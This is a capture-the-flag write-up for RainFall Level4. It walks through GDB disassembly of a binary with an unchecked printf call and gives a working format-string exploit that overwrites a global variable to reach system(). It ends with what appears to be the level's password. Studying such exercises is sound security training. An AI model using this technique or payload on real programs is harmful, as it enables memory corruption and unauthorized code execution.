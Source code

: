 # Level4

## Exploring the binary
```shell
level4@RainFall:~$ ./level4
phantom
phantom
level4@RainFall:~$ ./level4
society 42
society 42
```
Once again executable waits for standard input and then prints it out.

## GDB analysis
```shell
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:		push   %ebp
   0x080484a8 <+1>:		mov    %esp,%ebp
   0x080484aa <+3>:		and    $0xfffffff0,%esp
   0x080484ad <+6>:		call   0x8048457 <n>
   0x080484b2 <+11>:	leave
   0x080484b3 <+12>:	ret
End of assembler dump.
```
The main function calls <code>n()</code> upon execution.
```shell
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:		push   %ebp
   0x08048458 <+1>:		mov    %esp,%ebp
   0x0804845a <+3>:		sub    $0x218,%esp
   0x08048460 <+9>:		mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```
We see a comparison of variable <code>0x8049810</code> against <code>$0x1025544</code>.
```shell
(gdb) x/m 0x8049810
0x8049810 <m>:	Undefined output format "m".
(gdb) print 0x1025544
$1 = 16930116
```
Similarly to <code>level4</code>, there is a variable <code>m</code> which we have to modify without having any direct access to it. We check for its existence:
``` shell
(gdb) i var
All defined variables:

Non-debugging symbols:
0x08048588  _fp_hw
0x0804858c  _IO_stdin_used
0x080486f8  __FRAME_END__
0x080496fc  __CTOR_LIST__
0x080496fc  __init_array_end
0x080496fc  __init_array_start
0x08049700  __CTOR_END__
0x08049704  __DTOR_LIST__
0x08049708  __DTOR_END__
0x0804970c  __JCR_END__
0x0804970c  __JCR_LIST__
0x08049710  _DYNAMIC
0x080497dc  _GLOBAL_OFFSET_TABLE_
0x080497fc  __data_start
0x080497fc  data_start
0x08049800  __dso_handle
0x08049804  stdin@@GLIBC_2.0
0x08049808  completed.6159
0x0804980c  dtor_idx.6161
0x08049810  m
```

Function <code>n</code> also invokes another pre-made function, <code>p()</code>, prompting us to conduct an inspection.
```shell
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:		push   %ebp
   0x08048445 <+1>:		mov    %esp,%ebp
   0x08048447 <+3>:		sub    $0x18,%esp
   0x0804844a <+6>:		mov    0x8(%ebp),%eax
   0x0804844d <+9>:		mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave
   0x08048456 <+18>:	ret
End of assembler dump.
```
We opt to execute another <code>format string</code> attack.

## format string attack
We first determine which specific stack parameter is occupied by a string passed to <code>printf</code>.
``` shell
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil)
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 10' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0
level4@RainFall:~$ python -c 'print "AAAA" + " %p" * 15' > /tmp/pattern4
level4@RainFall:~$ cat /tmp/pattern4 - | ./level4
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070
```
We found that the string <code>AAAA</code> resides in the twelfth position. With our understanding of the format string's location in the stack, our next step is to craft a string 16930116 characters in length, embedding the address of the variable (<code>0x08049810</code>) crucial for spawning the shell.

## Exploit
``` shell
level4@RainFall:~$ python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d%12$n"' > /tmp/flag4
level4@RainFall:~$ cat /tmp/flag4 - | ./level4
[...]
                                       -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

